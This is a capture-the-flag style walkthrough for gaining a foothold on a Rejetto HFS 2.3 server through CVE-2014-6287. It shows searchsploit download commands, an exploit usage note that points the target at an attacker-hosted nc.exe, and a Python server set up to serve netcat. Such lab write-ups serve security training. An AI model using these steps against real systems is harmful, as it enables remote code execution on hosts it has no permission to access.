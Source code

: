 Looking at Server information, we can see that its running the following service and version:

```shell
HttpFileServer 2.3
```

Searching this on google, we will find the following:

```shell
Rejetto HTTP File Server
```

Note: We need to enter Rejetto HTTP File Server as answer to the second question.

We were also able to find a remote command execution exploit entering "Rejetto HTTP File Server 2.3 exploit" on google:

https://www.exploit-db.com/exploits/39161

# Foothold
### CVE-2014-6287 Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)
I will exploit this machine simulating the OSCP exam conditions, which dont allow the use of Metasploit exploitation or other automated exploitation tools.

Since we found the exploit on exploit-db.com, we can use searchsploit to download it:

```shell
# Download exploit
searchsploit -m 39161

# Rename-copy exploit for easier usage
cp 39161.py exploit.py
```

We can find information about usage in the code of the exploit:

```shell
#Usage : python Exploit.py <Target IP address> <Target Port Number>
```

It also tells us we need to host nc.exe with a web server and that we might need to run the exploit multiple times:

```shell
#EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).
#          You may need to run it multiple times for success!
```

We can do it with a python server:

```shell
# Find the nc.exe
locate nc.exe

# Copy the nc.exe to the directory where we currently are
cp /usr/share/windows-resources/binaries/nc.exe .

# Start python server from our current directory containing nc.exe
python3 -m http.server 80
```
